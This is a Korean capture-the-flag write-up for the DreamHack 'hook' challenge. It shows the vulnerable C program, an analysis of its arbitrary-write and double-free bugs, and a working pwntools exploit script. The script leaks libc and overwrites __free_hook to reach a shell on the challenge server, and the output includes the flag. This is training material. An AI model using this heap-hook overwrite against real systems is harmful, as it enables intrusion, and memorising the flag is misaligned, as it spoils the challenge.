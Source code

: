 # [DreamHack] hook

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> 이 문제는 작동하고 있는 서비스(hook)의 바이너리와 소스코드가 주어집니다.
> 프로그램의 취약점을 찾고 _hook Overwrite 공격 기법으로 익스플로잇해 셸을 획득한 후, “flag” 파일을 읽으세요.
> “flag” 파일의 내용을 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.
> 플래그의 형식은 DH{…} 입니다.
>
> Release: [hook.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8548668/hook.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/160263060-be36378f-36b3-4f57-9594-2338dc31af90.png)

## Analysis

```c
int main(int argc, char *argv[]) {
    long *ptr;
    size_t size;

    initialize();

    printf("stdout: %p\n", stdout);

    printf("Size: ");
    scanf("%ld", &size);

    ptr = malloc(size);

    printf("Data: ");
    read(0, ptr, size);

    *(long *)*ptr = *(ptr+1);
   
    free(ptr);
    free(ptr);

    system("/bin/sh");
    return 0;
}
```

마지막의 `system("/bin/sh")`을 실행시키는 것이 목표이다. 즉 그 전에 오류가 나서 프로세스가 중단되지 않도록 해야 한다.

원하는 크기만큼 `malloc()`으로 메모리를 할당받아서 데이터를 입력할 수 있다. 입력한 데이터의 첫 8바이트는 주소, 그 다음 8바이트는 값이다.

`free(ptr)`을 두 번 실행하면 double free bug가 발생하면서 오류가 난다. free hook을 덮어서 프로세스 진행에 영향이 가지 않는 다른 함수가 실행되도록 하면 셸을 획득할 수 있다.

## Exploit

```python
from pwn import *

REMOTE = True

if not REMOTE:
    r = process('./release/hook')
    stdout_offset = 0x3ec760
    freehook_offset = 0x3ed8e8
else:
    r = remote('host1.dreamhack.games', 13070)
    stdout_offset = 0x3c5620
    freehook_offset = 0x3c67a8

printf_plt = 0x400790  # PLT of printf()


# leak libc

r.recvuntil('stdout: 0x')
stdout = int(r.recvline()[:-1], 16)  # _IO_2_1_stdout_
libc = stdout - stdout_offset  # libc base
freehook = libc + freehook_offset  # __free_hook


# overwrite free hook with PLT of printf()

r.sendlineafter('Size: ', '16')
r.sendafter('Data: ', p64(freehook) + p64(printf_plt))


r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host1.dreamhack.games on port 13070: Done
[*] Switching to interactive mode
\xa87Nk\x1b\x7f\xa87Nk\x1b\x7f$ cat flag
DH{5203c83c34143bab58f653d1c1339016}
```